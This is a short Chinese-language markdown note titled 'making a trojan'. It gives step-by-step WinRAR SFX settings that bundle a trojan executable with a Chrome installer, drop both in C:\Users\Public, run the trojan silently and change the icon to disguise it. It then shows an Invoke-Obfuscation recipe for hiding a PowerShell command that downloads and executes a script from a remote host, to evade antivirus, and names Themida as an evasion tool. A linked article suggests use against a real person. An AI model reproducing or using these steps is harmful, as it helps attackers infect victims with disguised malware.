 # 制作木马
## vs2019修改exe图标 
[记一次拿图书馆小姐姐微信的全过程](https://mp.weixin.qq.com/s/LB_UrYMYYY7M3Ryhv8quFw)

## 打包木马和Chrome打包
1.选中Chrome安装包和 木马.exe
2.右击添加到winrar
3.General - ✔️Create SFX archive
4.Advanced - SFX options
4.1 General - C:\Users\Public
4.2 Setup - Run after extraction: C:\Users\Public\yiye1010.exe
4.3 Setup - Run before extraction: C:\Users\Public\ChromeSetup.exe
4.4 Modes - Hide all
4.5 Update - Extract and update files
5. Restorator修改图标
```bash
WinRAR a -sfx -iicond:\app.ico setup.exe

winrar a -v360 1 -sfx  # 360k分卷
WinRAR a -sfxWinCon.SFX Gift.rar
```

## Invoke-Obfuscation 制作 powershell免杀
```bash
# https://github.com/danielbohannon/Invoke-Obfuscation
Import-Module .\Invoke-Obfuscation.psd1;Invoke-Obfuscation
Invoke-Obfuscation
set scriptblock 'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/b'))"'
token\all\1
# encoding <enter> 1 <enter> ascii混淆
# encoding\1
out PowerShellCodeASCII.ps1
```

# 免杀工具
1.Themida
